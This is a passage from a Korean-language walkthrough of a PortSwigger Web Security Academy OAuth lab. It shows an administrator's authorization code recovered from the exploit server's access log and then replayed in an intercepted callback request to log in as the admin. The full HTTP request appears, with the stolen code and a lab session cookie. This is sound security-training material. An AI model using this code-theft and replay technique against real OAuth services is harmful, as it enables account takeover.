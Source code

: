 
## exploit서버 로그에서 code 확인
exloit서버에서 Access log버튼을 눌러서 로그를 확인해본다. 그러면 다음과 같이 code가 포함된 요청이 있었던 것을 볼 수 있다! 관리자의 인증 코드를 얻어내는데 성공했다!

![로그에서 code 확인](/images/burp-academy-oauth-3-3.png)


## 훔친 인증코드를 사용해서 관리자로 로그인
그러면 이제 얻어낸 인증코드를 사용해서 관리자로 로그인해본다. 문제 사이트의 My Account메뉴를 클릭해서 로그인 과정을 개시한다. 이 때 Burp Proxy를 ON으로하고 HTTP요청을 캡처한다. 다음과 같이 문제서버에 OAuth 인증코드를 사용해서 로그인을 하는 부분을 캡쳐해서 code를 위의 과정에서 얻은 관리자 유저의 값으로 변경하고 요청을 보낸다. 

```http
GET /oauth-callback?code=PwjgaWMgIJ929S3sY3DJSU6nPSc7RE20TSJpYpGOjzX HTTP/2
Host: 0aa1005d041fe0468120a26500e8000d.web-security-academy.net
Cookie: session=uhTedXUzYRfBaLzyohnbS5QIS521aX3f
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://oauth-0aa90042046ae0a68166a07502570051.oauth-server.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
```


![관리자 유저로 로그인시도](/images/burp-academy-oauth-3-4.png)
